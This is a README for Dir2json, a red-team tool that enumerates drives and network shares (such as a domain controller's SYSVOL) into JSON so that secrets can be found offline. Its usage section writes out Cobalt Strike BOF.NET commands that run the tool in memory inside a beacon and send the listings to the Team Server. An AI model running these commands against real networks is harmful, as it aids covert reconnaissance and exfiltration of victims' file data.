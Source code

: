# Dir2json
Dir2json is a .NET utility which recursively lists drives or network shares storing the directory listing including various attributes in a (gzipped) .json file. Attributes that are collected are:
- Name of the file or directory
- Size of the file in bytes
- Last Modified date of the file or directory
- Attributes of the file or directory ([.NET FileAttributes](https://learn.microsoft.com/en-us/dotnet/api/system.io.fileattributes#fields))

Dir2json can either be executed from the commandline, or from memory in a Cobalt Strike beacon using @CCob's [BOF.NET](https://github.com/CCob/BOF.NET) where Cobalt Strike's in-memory download functionality is used to retrieve the resulting file listing.

As a .json file is not as easy to search through, the `Json2csv.ps1` script converts the (hierarchical) JSON structure to a (flat) CSV file which can be easily queried using PowerShell (examples in `CheatSheet.ps1`) or using tools like `grep`.

This utility has been developed for use in Red Team assignments to be able to efficiently perform offline searches for interesting files and directories. At the BITSADMIN blog an in-depth article on this tool is available: [Digging for secrets on corporate network shares](https://blog.bitsadmin.com/blog/digging-for-secrets).

Latest binaries available from the [Releases](https://github.com/bitsadmin/dir2json/releases) page.


## Demos
**In-memory execution in Cobalt Strike**

[cobaltstrike.mp4](https://blog.bitsadmin.com/assets/img/20230403_digging-for-secrets/cobaltstrike.mp4)

**Convert JSON to CSV and query CSV**

[powershell.mp4](https://blog.bitsadmin.com/assets/img/20230403_digging-for-secrets/powershell.mp4)

**Example queries**
A cheat sheet with various PowerShell queries generating, importing and querying the directory listing can be found in the `CheatSheet.ps1` file in this repository.


## Usage
### Cobalt Strike 
```shell
bofnet_init
bofnet_load /path/to/Dir2json/Dir2json.dll
bofnet_execute Dir2json.Program C:\ cs
bofnet_shutdown
```

### Commandline
```cmd
dir2json.exe C:\ drive_C.json.gz
```

### Usage
```
== Dir2json v1.0 ==
Twitter: @bitsadmin
Website: https://github.com/bitsadmin/dir2json


Usage: Dir2json.exe drive:path output [/MaxDepth=value] [/EntriesPerFile=value] [/FollowSymlinks]
    drive:path
            Specifies drive and/or directory

    output
            Output possibilities
             [filename]     Save output to disk. If the .gz extension is used, it is first compressed
                            E.g. dir2json.json saves JSON to disk; dir2json.json.gz, saves gzip(JSON) to disk
             con            Outputs base64(gzip(JSON)) to console
             conraw         Outputs JSON to console
             cs             Downloads the compressed gzip to the Cobalt Strike Team Server using the
                            undocumented download functionality
             csraw          Downloads the plain JSON to the Cobalt Strike Team Server using the
                            undocumented download functionality

    [/MaxDepth=value]
            Only recurses until a certain depth from the specified directory. Default: 999. Setting the value to 0
            also makes it set to depth 999.

    [/EntriesPerFile=value]
            Maximum entries per file (x 1000). Makes sure that memory is periodically flushed. Default: 0 meaning GêP
            For example 10 means that after 10.000 entries the file will be saved/downloaded and memory cleaned up.

    [/FollowSymlinks]
            By default symlinks are not followed because they could lead to infinite loops resulting in a crash of the
            application. This flag enables following symlinks. In combination with the /MaxDepth such infinite loop can
            be avoided.


Examples:
    Enumerate drive C and store in compressed file drive_C.json.gz in the current directory
    dir2json C:\ drive_C.json.gz

    Enumerate the SYSVOL share on DC01, following sybmolic links and splitting the output in 10.000 entries per file
    dir2json \\DC01\SYSVOL\ C:\Temp\SYSVOL.json /FollowSymlinks /MaxDepth=32 /EntriesPerFile=10

    Enumerate the C:\Users directory with maximum recursion depth of 5 and output the JSON to the console window
    dir2json C:\Users\ conraw /MaxDepth=5


    Load BOFNET and Dir2json in Cobalt Strike for in-memory execution
    bofnet_init
    bofnet_load /path/to/Dir2json/Dir2json.dll

    Enumerate drive C splitting the output up in 100.000 entries per file, having the
    resulting compressed .json.gz files downloaded to the Team Server
    bofnet_execute Dir2json.Program C:\ cs /EntriesPerFile=100

    Enumerate the Backup share on MYSERVER downloading the compressed .json.gz file to the Team Server
    bofnet_execute Dir2json.Program \\MYSERVER\Backup\ cs

    Enumerate the C:\Users\bitsadmin directory and download the .json file to the Team Server
    bofnet_execute Dir2json.Program C:\Users\bitsadmin\ csraw

    Enumerate drive X storing the output on the machine running the beacon in C:\Temp\Drive_X.json.gz
    bofnet_execute Dir2json.Program C:\ C:\Temp\Drive_X.json.gz
```


## Notes
- Before the full directory listing is stored on disk, it is kept in memory. Even though the storage is quite efficient, on large filesystems it can use quite some memory and if the system does not have a lot of memory could lead to OutOfMemory exceptions. For that reason the `/EntriesPerFile=X` parameter is available which downloads the results thusfar and frees up memory before moving on. The `Json2csv.ps1` script recognizes when a file has been split and merges the output back into a single .csv.
- For some reason in some circumstances (which I was not able to debug because it was a client environment) executing dir2json against `C:\` through BOF.NET just stops execution after a while without showing any message while the beacon just stays alive. In those cases the instead of collecting the files of the full `C:\` drive, create a file listing of the different folders (e.g. `C:\Users\`, `"C:\Program Files\"` individually and merge the outputs later.


## Future work
- Support for enumeration of folders and directories on SharePoint sites (`Microsoft.SharePoint.Client` .NET namespace)
- Support for the Windows registry
- Create a more memory-efficient Json2Csv converter (e.g. in Python)
